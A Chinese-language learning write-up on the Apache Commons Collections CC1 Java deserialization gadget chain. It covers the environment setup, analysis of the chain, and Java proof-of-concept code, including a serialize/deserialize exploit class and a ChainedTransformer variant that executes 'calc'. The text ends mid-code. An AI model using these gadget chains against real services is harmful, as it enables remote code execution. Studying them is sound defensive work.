0x01 环境搭建
首先正常创建Java项目，这里使用maven管理工具，JDK要求8u_65（高版本会被修复），如下图。

maven添加CC1依赖
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>如果能成功导入以下包，则证明依赖安装成功
import org.apache.commons.collections.functors.InvokerTransformer;接下来修改sun包方便阅读源码，已有的JDK是 .class 文件，是已经编译完了的反编译代码，相对.java文件不太友好
在上述给出的链接中下载zip包并解压
- 先解压之前的JDK中的
src.zip，如下

- 在刚刚下载的
OpenJDK\jdk-8u65\src\share\classes目录下找到sun，放入上面的src里

- 在IDEA->Project Structure->SDKs->1.8_65->Sourcepath加入该目录

0x02 Common-Collections 相关介绍
Apache Commons Collections包和简介 | 闪烁之狐
Apache Commons是Apache软件基金会的项目，曾经隶属于Jakarta项目。Commons的目的是提供可重用的、解决各种实际的通用问题且开源的Java代码。Commons由三部分组成：Proper（是一些已发布的项目）、Sandbox（是一些正在开发的项目）和Dormant（是一些刚启动或者已经停止维护的项目）。
Commons Collections包为Java标准的Collections API提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。让我们在开发应用程序的过程中，既保证了性能，同时也能大大简化代码。
包结构介绍。
org.apache.commons.collections– CommonsCollections自定义的一组公用的接口和工具类org.apache.commons.collections.bag– 实现Bag接口的一组类org.apache.commons.collections.bidimap– 实现BidiMap系列接口的一组类org.apache.commons.collections.buffer– 实现Buffer接口的一组类org.apache.commons.collections.collection–实现java.util.Collection接口的一组类org.apache.commons.collections.comparators– 实现java.util.Comparator接口的一组类org.apache.commons.collections.functors–Commons Collections自定义的一组功能类org.apache.commons.collections.iterators– 实现java.util.Iterator接口的一组类org.apache.commons.collections.keyvalue– 实现集合和键/值映射相关的一组类org.apache.commons.collections.list– 实现java.util.List接口的一组类org.apache.commons.collections.map– 实现Map系列接口的一组类org.apache.commons.collections.set– 实现Set系列接口的一组类
0x03 CC1攻击链分析(TransformMap)
首先回顾复习一下反序列化攻击思路

寻找尾部危险方法
因为这里是学习，直接去看Transformer接口
快捷键 ctrl + alt + B，查看实现接口的类。

这里跟着b站up白日梦组长看了几个实现类，最终在InvokerTransformer的transform()方法看到了反射调用，这里可以调用任意类任意方法，也就符合了我们攻击的要求。

这里尝试使用这个类简单calc一下
这里是利用反射的简单demo小样
public static void main(String[] args) throws Exception {
// Runtime.getRuntime().exec("calc");
Runtime rt = Runtime.getRuntime();
Class c = rt.getClass();
Method execMethod = c.getMethod("exec", String.class);
execMethod.invoke(rt, "calc");
}接下来根据InvokerTransformer类来写

package com.hsad;
import org.apache.commons.collections.functors.InvokerTransformer;
import java.io.*;
import java.lang.reflect.Method;
public class Draft {
public static void main(String[] args) throws Exception {
Runtime rt = Runtime.getRuntime();
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(rt);
}
}寻找反序列化链
我们已经找到在InvokerTransformer类存在危险方法transform()，接下来寻找谁调用了这个方法
跟进transform()方法，使用Find usages
Ctrl+Shift+Alt+F7选择All Places

这里就直接点出TransformedMap的checkSetValue()方法调用了transform()方法

先跟着看一下valueTransformer，这里找到了TransformedMap构造函数，这里为protected，但是上面有个静态方法调用了构造函数

因为TransformedMap类是protected的，无法直接获取到对象，可以借助decorateTransform这个静态方法来构造，然后利用反射来命令执行，来写一个demo小样
public static void main(String[] args) throws Exception {
Runtime rt = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
// invokerTransformer.transform(rt);
HashMap<Object, Object> hashMap = new HashMap<>();
Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
Class<TransformedMap> transformedMapClass = TransformedMap.class;
Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
checkSetValueMethod.setAccessible(true);
checkSetValueMethod.invoke(decorateMap, rt);
}继续往下找，看看谁调用了checkSetValue()方法，发现这是一个抽象类，是 TransformedMap 的父类。
调用 checkSetValue 方法的类是 AbstractInputCheckedMapDecorator 类中的一个内部类 MapEntry


setValue() **实际上就是在 Map 中对一组 entry（键值对）**进行 setValue() 操作。



所以，我们在进行 .decorate 方法调用，进行 Map 遍历的时候，就会走到 setValue() 当中，而 setValue() 就会调用 checkSetValue
public static void main(String[] args) throws Exception {
Runtime rt = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
// invokerTransformer.transform(rt);
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("a", "b");
Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
// 遍历Map来触发setValue
for(Map.Entry entry:decorateMap.entrySet()){
entry.setValue(rt);
}
}反序列化入口-readObject()
接下来我们继续跟进，发现AnnotationInvocationHandler在readObject()方法调用了setValue()方法，至此我们的链子已经完整了

我们注意到类的名字为 AnnotationInvocationHandler，InvocationHandler 这个后缀，我在动态代理里面提到过，是用做动态代理中间处理，因为它继承了 InvocationHandler 接口。

0x04 CC1 Exp(TransformMap)
理想状态
我们只需要通过反射的方式来获取 AnnotationInvocationHandler 类及其构造函数，再实例化它，然后反序列化即可。
package com.hsad;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
public class Exploit {
public static void main(String[] args) throws Exception {
Runtime rt = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("a", "b");
Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
// 根据AnnotationInvocationHandler构造函数获取其构造器
Constructor aiconstructor = c.getDeclaredConstructor(Class.class, Map.class);
aiconstructor.setAccessible(true);
Object o = aiconstructor.newInstance(Override.class, transformedMap);
serialize(o);
unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}
}
不过并没有成功弹出calc，寻找一下问题：
Runtime对象不可序列化，需要通过反射将其变成可以序列化的形式。setValue()的传参，是需要传Runtime对象的；而在实际情况当中的setValue()的传参是这个东西

- 之前提到的
if条件
Fix：Runtime对象不可序列化
Runtime 是不能序列化的，但是 Runtime.class 是可以序列化的
先写一下Runtime.class的普通反射
public static void main(String[] args) throws Exception {
Class c = Runtime.class;
Method method = c.getDeclaredMethod("getRuntime");
Runtime newRuntime = (Runtime) method.invoke(null, null);
Method execMethod = c.getDeclaredMethod("exec", String.class);
execMethod.invoke(newRuntime, "calc");
}然后将这个反射的 Runtime 改造为使用 InvokerTransformer 调用的方式
public static void main(String[] args) throws Exception {
Class c = Runtime.class;
// 对应Method method = c.getDeclaredMethod("getRuntime");
Method runtimeMethod = (Method) new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}).transform(c);
// 对应Runtime newRuntime = (Runtime) method.invoke(null, null);
Runtime runtime = (Runtime) new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}).transform(runtimeMethod);
// 对应Method execMethod = c.getDeclaredMethod("exec", String.class);
// 对应execMethod.invoke(newRuntime, "calc");
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"}).transform(runtime);
}上述代码有很多复用性，所以我们可以使用ChainedTransformer类来简化代码

package com.hsad.Fix;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
public class FixRuntime_Chain {
public static void main(String[] args) throws Exception {
Transformer[] transformer = new Transformer[] {
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
Transformer chainedTransformer = new ChainedTransformer(transformer);
chainedTransformer.transform(Runtime.class);
}
}
和之前写好的结合一下
package com.hsad;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
